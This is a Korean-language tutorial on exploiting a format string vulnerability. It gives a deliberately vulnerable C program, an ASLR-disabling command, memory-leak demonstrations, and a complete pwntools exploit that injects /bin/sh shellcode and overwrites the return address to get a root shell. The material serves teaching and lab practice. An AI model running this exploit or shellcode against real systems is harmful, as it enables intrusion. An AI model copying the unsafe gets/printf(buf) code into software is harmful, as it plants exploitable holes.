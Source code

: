 ## **Concept**

Format String은 형태를 지정해주는 문자열을 의미한다.  
형식지정자를 사용하지 않고 바로 printf() 함수에 인자를 입력받을 경우 발생하는 취약점이다.

## **Proof of Concept**

고정된 Stack 영역을 사용하기 위해 randomize_va_space의 값을 0으로 변경한다.

```
echo 0 > /proc/sys/kernel/randomize_va_space
```

```c
// Vuln Code
// gcc fmt.c -m32 -fno-stack-protector -z execstack -no-pie -o fmt
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char* argv[]){
    char buf[1024];
    printf("&buf: %p\n",&buf);
    gets(buf);
    printf(buf);
    printf("n");
    return 0;
}
```

형식지정자 입력 시 &buf부터 차례로 Memory Leak이 발생한다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
%08x.%08x.%08x.
ffffd150.001ad23c.001ae23c.
```

Memory Leak을 하다보면 buf의 값을 확인할 수 있다.

```
root@bs-virtual-machine:~/pwnable/fmt# ./fmt
&buf: 0xffffd150
AAAA.0x%08x.0x%08x.0x%08x.0x%08x
AAAA.0xffffd150.0x001ad23c.0x001ae23c.0x41414141
```

처음에 넣은 AAAA(4Byte)가 4번째에에 출력되고 있다. 즉 네번째에 들어가는 포맷스트링은 처음 입력한 AAAA(4Byte)를 가리키는 것을 알 수 있다.  

따라서 "Ret Addr" + "%x%x%x" + "%n" Payload를 통해 원하는 메모리 주소에 원하는 값으로 변조할 수 있다.  

먼저 환경변수에 x86 EggShell을 삽입 후 출력되는 Stack Address를 통해 Return Address와 EggShell Address를 계산한다.

```
gdb-peda$ p 0xffffd4ac-0xffffd090 (Return Address - Stack)
$1 = 0x41c
gdb-peda$ p 0xffffd6fc-0xffffd090 (EggShell Address - Stack)
$3 = 0x66c
```

## **Exploit Code**

```python
# Exploit Code
from pwn import *
import os

# set eggshell
os.environ['eggshell'] = "x90"*100+"\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

binary = ELF('./fmt')
p = process(binary.path)
stack_addr = int(p.recvline().split(' ')[1],16)
log.info('stack addr: '+hex(stack_addr))

ret_addr = stack_addr + 0x41c
eggshell_addr = stack_addr + 0x66c

log.info('ret addr: '+str(hex(ret_addr)))
log.info('eggshell addr: '+str(hex(eggshell_addr)))

eggshell_high = int("0x"+ str(hex(eggshell_addr))[2:6],16)
eggshell_low = int("0x"+str(hex(eggshell_addr))[6:10],16)

log.info("eggshell high: "+str(hex(eggshell_high)))
log.info("eggshell low: "+str(hex(eggshell_low)))

first_n = eggshell_low - 16 - 12
second_n = eggshell_high - 16 - 12 - first_n

payload = ""
payload += p32(ret_addr)
payload += "AAAA"
payload += p32(ret_addr+2)
payload += "%8x"*2
payload += "%"+str(first_n)+"c"+"%n"
payload += "%"+str(second_n)+"c"+"%n"

p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fmt# python exploit.py 
[*] '/root/pwnable/fmt/fmt'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/root/pwnable/fmt/fmt': pid 5036
[*] stack addr: 0xffffd0a0
[*] ret addr: 0xffffd4bc
[*] eggshell addr: 0xffffd70c
[*] eggshell high: 0xffff
[*] eggshell low: 0xd70c
[*] Switching to interactive mode
$ 
xbcտxffAAAAxbeտxffffffd0a0  1ad23c 
...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/fmt
```